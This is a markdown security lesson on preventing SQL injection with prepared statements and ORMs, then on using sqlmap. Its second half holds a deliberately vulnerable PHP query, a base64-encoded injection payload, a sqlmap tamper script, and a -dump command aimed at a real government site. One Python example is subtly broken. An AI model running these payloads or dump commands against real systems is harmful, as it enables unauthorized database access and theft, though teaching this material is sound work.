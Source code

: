 # PREVENTION AND SQLMAP - LESSON 05

## 'SQLI PREVENTION

We learned how to exploit an SQL injection, but how can we prevent it from
happening when we're programming?
The answer is simple and effective: prepared statements, libraries and ORM.
We are in 2019 and the query-wheel was invented long time ago, there is no
need to reinvent it again.

### What is a prepared statement
A prepared statement (a.k.a parameterized statement) is a feature to execute to
avoid code injections and perform similar statements repeatedly with high
efficiency.
The SQL statement is used in form of template and at each execution some
constant values are replaced with variables.
The typical flow is as follows:
1. Prepare: the app creates the SQL template with certain values, called
'parameters', 'placeholders' or 'bind variables'.
2. The DBMS parses, optimizes and translates the statement without executing it.
3. Execute: the app replace (or binds) the parameters with real values and
executes the statement.

In this way the DBMS knows what is a statement and what is a parameter and it is
impossible to trick it to get a parameter as a statement.


#### PHP PDO Example
```php
  // Database connection
  $conn = new PDO("mysql:dbname=mysql", "root");
  // Prepare the statement as a query template
  $stmt = $conn->prepare("SELECT * FROM pages WHERE id = ?");
  // Declare parameters
  $params = array(11);
  // Bind parameters to query template and execute it
  $stmt->execute($params);
  // Show results
  echo $stmt->fetch()[1];
```

#### PHP ORM Example

```php
  $capsule = new Capsule;
  $capsule->addConnection([
    'driver'    => 'mysql',
    'host'      => 'db',
    'database'  => 'sqli_chall4_0',
    'username'  => 'chall4_0',
    'password'  => 'random_password'
  ]);
  $result = $capsule->table('memes')->where('id', '=', $_GET['id'])->first();
  echo $result->title;
```

#### Node.js Example

```js
const mysql = require('mysql2');

// create the connection to database
const connection = mysql.createConnection({
  host: 'localhost',
  user: 'root',
  database: 'test'
});

// execute will internally call prepare and query
connection.execute(
  'SELECT * FROM `memes` WHERE `id` = ? AND `category` = ?',
  [51, 'cybersec'],
  function(err, results, fields) {
    console.log(results); // results contains rows returned by server
  }
);
```

#### Python Example

```python
import mysql.connector
connection = mysql.connector.connect(host='localhost',
                             database='memes',
                             user='memes',
                             password='password1')

cursor = connection.cursor(prepared=True)
prepstmt = "SELECT id, title FROM memes WHERE id = %s"
cur.execute(prepstmt, (15))
for row in cur:
  print row['title']
```

## 'SQLMAP
### What is sqlmap

sqlmap is an open source penetration testing tool that automates the process of
detecting and exploiting an SQL injection.

- Supports MySQL, Oracle, PostgreSQL, MSSQL, Microsoft Access, SQLite and many
others
- Supports six techniques: boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.
- Automatically enumerates user, password hashes, databases, roles, privileges,
tables and columns.
- Supports database dumps
- Can download and upload files
- Can automatically get RCE
- Supports other cool features

### Usage examples

<iframe src="https://asciinema.org/a/46601/embed?" id="asciicast-iframe-46601" name="asciicast-iframe-46601" scrolling="no" allowfullscreen="true" style="overflow: hidden; margin: 0px; border: 0px; display: inline-block; width: 662px; float: none; visibility: visible; height: 514px;"></iframe>

### Sqlmap tamper scripts
sqlmap can be easily extended writing sqlmap tamper scripts. This features
allow us to automate an attack that with standard sqlmap is not working.

#### Example
The developer became paranoid when a friend explained him the sql injections.
To avoid it, he implemented a base64 query parser: each parameter must be
decoded with base64 and then can be used for the real query.

```php
$id = base64_decode($_GET['id']);
$sql = "SELECT * FROM pages WHERE id = '" . $id . "'";
$result = $conn->query($sql);
while($row = $result->fetch_array()){
  print_r($row);
}
```

Parameters:
```
$_GET['id'] = 'MTEK' // 'MTEK' is 11 base64-encoded
```
Result:
```sql
SELECT * FROM pages WHERE id = '11';
```
To exploit this SQLi we have to produce the string `' or 1=1 -- -`, but we know
that the `id` parameter will be base64-decoded.
So to exploit the injection we have base64-encode our payload:

```bash
echo -n "'or 1=1 -- -" | base64 # returns J29yIDE9MSAtLSAt
```

So we will pass:
```php
$_GET['id'] = 'J29yIDE9MSAtLSAt';
```

to get this query:
```sql
SELECT * FROM pages WHERE id = '' or 1=1 -- -'
```

If we have to deal with a simple query like this it is OK to do it manually but
imagine to exploit a time-based injection in this way...it's a long travel :)

We can create a simple python script that encodes our payloads and we'll tell
to sqlmap to use it before sending its queries:

```python
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    encoded_payload = base64.b64encode(payload)
    return encoded_payload
```

We save this script in `sqlmap/tamper/b64.py` and then we call sqlmap with the
`-tamper` parameter that will point to our script:

```bash
sqlmap -u "https://www.nsa.gov/news.php?id=MTEK" -tamper="b64.py" -dump
```
In this way every single payload that sqlmap wants to send to the target will
pass through our script and will be encoded in base64.
